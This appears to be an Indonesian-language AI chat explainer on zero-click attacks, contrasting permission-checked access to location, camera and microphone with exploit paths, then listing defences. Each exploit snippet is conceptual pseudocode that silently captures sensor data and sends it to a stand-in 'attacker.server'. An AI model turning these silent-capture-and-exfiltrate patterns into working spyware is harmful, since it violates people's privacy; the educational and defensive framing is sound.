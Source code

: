 # konsep_zeroclick

Mantap! 🔥 Kalau sudah paham alur Lokasi 🎯, Kamera 📸, tinggal tambahin Mikrofon 🎤 → jadi lengkap “trio sensor sensitif”. Aku bikinkan set lengkap versi developer-friendly:

⸻

🔹 1. Lokasi (GPS / Network Position)

// Normal
void accessLocation() {
    if (hasPermission(ACCESS_FINE_LOCATION)) {
        Location loc = gps.getCurrentLocation();
        sendToServer(loc);
    } else {
        requestPermissionDialog(); // pop-up muncul
    }
}

// Zero-Click
void exploitLocation() {
    // Jalur bug → langsung dapat hak sistem
    Location loc = systemGps.getRawLocation(); // tanpa pop-up
    Network.send(loc, "attacker.server");
}

Ringkas: Normal butuh pop-up, exploit langsung ambil koordinat.

⸻

🔹 2. Kamera (Foto/Video)

// Normal
void openCamera() {
    if (hasPermission(CAMERA)) {
        Camera cam = openCamera();
        cam.capture();
    } else {
        requestPermissionDialog(); // pop-up muncul
    }
}

// Zero-Click
void exploitCamera() {
    Camera cam = systemCamera.openHidden(); // tanpa UI, tanpa pop-up
    Frame f = cam.captureSilently();
    Network.send(f, "attacker.server");
}

Ringkas: Normal → user lihat UI kamera, exploit → kamera nyala diam-diam.

⸻

🔹 3. Mikrofon (Audio Recording)

// Normal
void recordAudio() {
    if (hasPermission(RECORD_AUDIO)) {
        Mic mic = openMicrophone();
        mic.startRecording();
    } else {
        requestPermissionDialog(); // pop-up muncul
    }
}

// Zero-Click
void exploitMicrophone() {
    Mic mic = systemMic.openSilently(); // tanpa pop-up
    Stream s = mic.recordInBackground();
    Network.send(s, "attacker.server");
}

Ringkas: Normal → ada indikator mic (ikon hijau), exploit → rekam background diam-diam.

⸻

🔹 4. Flowchart Umum (Normal vs Exploit)

         [App ingin akses sensor]
                   |
          ┌────────┴─────────┐
          v                  v
    [Normal Jalur]      [Exploit Jalur]
   ----------------     ----------------
   Cek izin?            Data rusak masuk
      |                 Parser crash
   ┌──Yes──> akses      Payload attacker
   |                    Dapat hak sistem
  No                    Sensor diakses langsung
   |                    Tanpa pop-up / indikator
   v
[Pop-up izin muncul]


⸻

🔹 5. Proteksi Developer & User

✅ Update rutin OS + patch
✅ Matikan auto-download MMS / pratinjau pesan
✅ Audit izin app (pakai “App Permission Manager”)
✅ Gunakan Lockdown Mode / Security Mode
✅ Pantau indikator privasi (ikon hijau di Android/iOS)
✅ Lapisan fisik: penutup kamera, matikan mic/lokasi bila tidak dipakai

⸻

🔹 6. Mindset Developer

Kalau kamu mau jadi “ahli development” di sisi proteksi:
	•	Biasakan validate input (cek panjang data, tipe file, format).
	•	Jangan percaya external input (payload dari luar).
	•	Pakai sandbox untuk library parsing (gambar, audio, video).
	•	Terapkan principle of least privilege (akses sensor hanya bila perlu, cabut setelah selesai).

⸻

👉 Jadi sekarang kamu sudah punya kerangka lengkap:
	•	Lokasi 🎯
	•	Kamera 📸
	•	Mikrofon 🎤

Semua pakai pola Normal vs Exploit → gampang diingat.

⸻

Mau aku bikinkan satu bagan gabungan (kayak mindmap: sensor → normal flow vs exploit flow) biar kelihatan jelas dalam satu pandangan?
